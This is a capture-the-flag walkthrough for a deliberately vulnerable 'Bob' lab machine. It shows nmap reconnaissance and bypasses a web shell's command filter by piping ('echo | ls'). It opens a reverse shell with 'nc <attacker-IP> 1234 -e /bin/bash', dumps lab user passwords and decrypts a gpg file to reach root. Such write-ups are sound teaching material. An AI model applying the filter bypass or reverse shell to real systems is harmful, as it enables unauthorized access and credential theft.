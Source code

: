 # init

## scan
+ initial nmap scan `nmap -A -T4 -oA bob_nmap_scan 10.0.2.6` revealed only a http server running on port 80
+ interesting page entries were already presented through robots.txt contents, presented by nmap:
  - login.php
  - dev_shell.php
  - lat_memo.html
  - passwords.html

## webserver
passwords.html
+ _user_ bob (or probably an admin) removed the passwords file from the webserver and suggests the use of password hashes 

lat_memo.html
+ bob mentions a recent breach and a webshell running on the server
+ some form of windows filter is in place

login.html
+ currently disabled

dev_shell.php
+ grants access to a command shell
+ certain comands are allowed, like date and echo
+ others are filtered like `ls`
+ also commands separated by `;` like `echo ""; ls` get filtered
+ not filtered are: `python -c ...`, `echo ls`, and pipes
+ so `echo | ls` already bypasses the filter in place

by searching through user data proftpd can be found in \home\bob\Downloads

## shell
Start shell from dev_shell with `echo | nc <attacker-IP> 1234 -e /bin/bash` thanks to bsd netcat being installed.
Upgrade shell by first using __python pty__. Afterwards, send it to background with `CTRL-Z`, then
get current Kali info with
```
echo $TERM
stty -a
```
Get the Term type info like _xterm-256color_ and row and column numbers.
In the next step set tty to raw and echo with `stty raw -echo`, foreground the netcat session with `fg` and `reset` the session.
This should already make the session more useable.
If not the following variables have to be exported:
```
export SHELL=bash
export TERM=<term-variable>
stty rows <rows> columns <columns>
```

## user accounts
From a better shell it is easy to look around in bob's home dir, where the hidden file __.old_passwords.html__ can be found.
A text file in the elliot user directory further reveals the admin bob has strange wallpaper guidelines and elliots password is: theadminisdumb.
Contents:
```html
<html>
<p>
jc:Qwerty
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
</p>
</html>
```
The user bob also has a pgp encrypted ?! file in his Documents directory as well as two executable python scripts owned by bob and a proftpd install.

Switch user to either jc, elliot or seb `su seb` using the provided passwords.

## services and ports
From the process list `ps aux` the following information can be gathered:
+ sshdaemon is running
+ page uses mdns with domain name Milburg-High.local
+ exim4 runs (mailserver)
+ apache runs

This can also be confirmed by listing all active systemd services `systemctl list-units --type=service --state=running`

```
seb@Milburg-High:/home/bob$ systemctl list-units --type=service --state=running
UNIT                      LOAD   ACTIVE SUB     DESCRIPTION                                                                                                                    
apache2.service           loaded active running The Apache HTTP Server                                                                                                         
avahi-daemon.service      loaded active running Avahi mDNS/DNS-SD Stack                                                                                                        
cron.service              loaded active running Regular background program processing daemon                                                                                   
dbus.service              loaded active running D-Bus System Message Bus                                                                                                       
exim4.service             loaded active running LSB: exim Mail Transport Agent                                                                                                 
getty@tty1.service        loaded active running Getty on tty1                                                                                                                  
lightdm.service           loaded active running Light Display Manager                                                                                                          
ModemManager.service      loaded active running Modem Manager                                                                                                                  
NetworkManager.service    loaded active running Network Manager                                                                                                                
polkit.service            loaded active running Authorization Manager                                                                                                          
rsyslog.service           loaded active running System Logging Service                                                                                                         
rtkit-daemon.service      loaded active running RealtimeKit Scheduling Policy Service                                                                                          
ssh.service               loaded active running OpenBSD Secure Shell server                                                                                                    
systemd-journald.service  loaded active running Journal Service                                                                                                                
systemd-logind.service    loaded active running Login Service                                                                                                                  
systemd-timesyncd.service loaded active running Network Time Synchronization                                                                                                   
systemd-udevd.service     loaded active running udev Kernel Device Manager                                                                                                     
user@1002.service         loaded active running User Manager for UID 1002                                                                                                      
user@112.service          loaded active running User Manager for UID 112                                                                                                       

LOAD   = Reflects whether the unit definition was properly loaded.
ACTIVE = The high-level unit activation state, i.e. generalization of SUB.
SUB    = The low-level unit activation state, values depend on unit type.

19 loaded units listed. Pass --all to see loaded but inactive units, too.
To show all installed unit files use 'systemctl list-unit-files'.
```

The output of `grep Port /etc/ssh/sshd_config` reveals that the ssh server is running on 25468.
Further services and their port numbers can be revealed with `ss -tlpn`, due to some config files, like exim, being only accessible by root. 
This reveals services at ports:
```
elliot@Milburg-High:/etc/exim4$ ss -tnlp
State      Recv-Q Send-Q                                           Local Address:Port                                                          Peer Address:Port
LISTEN     0      20                                                   127.0.0.1:25                                                                       *:*
LISTEN     0      128                                                          *:25468                                                                    *:*
LISTEN     0      1                                                            *:38597                                                                    *:*
LISTEN     0      1                                                            *:36201                                                                    *:*
LISTEN     0      1                                                            *:34669                                                                    *:*
LISTEN     0      128                                                         :::80                                                                      :::*
LISTEN     0      20                                                         ::1:25                                                                      :::*
LISTEN     0      128                                                         :::25468                                                                   :::*
```

Exim being owned and executed by root means an RCE exploit would grant a root shell.
After scanning these 3 services with `nmap --script=vuln` all of them went down.
Port 25 is blocked from remote but via `nc localhost 25` a connection to the exim service can be stablished.  

## back to bob

User bob has some interesting files in his download directory, among them are a proftpd installation with a backdoor and a program called wheel of fortune. 

Bobs Documents contain some "porn" directories, which can be searched with `ls -R` because `tree` is not installed. A textfile named notes.sh contains multiple sentences whose starting letters form the word __HARPOCRATES__. This phrase can be used to decrypt `gpg --decrypt login.txt.gpg`, revealing the password b0bcat_ used by bob.
Since bob is in sudoers, the flag can be read.

If a wrong password is entered the first time it is stored by the gpg-agent, this can be forgotten with `gpgconf --reload gpg-agent`.
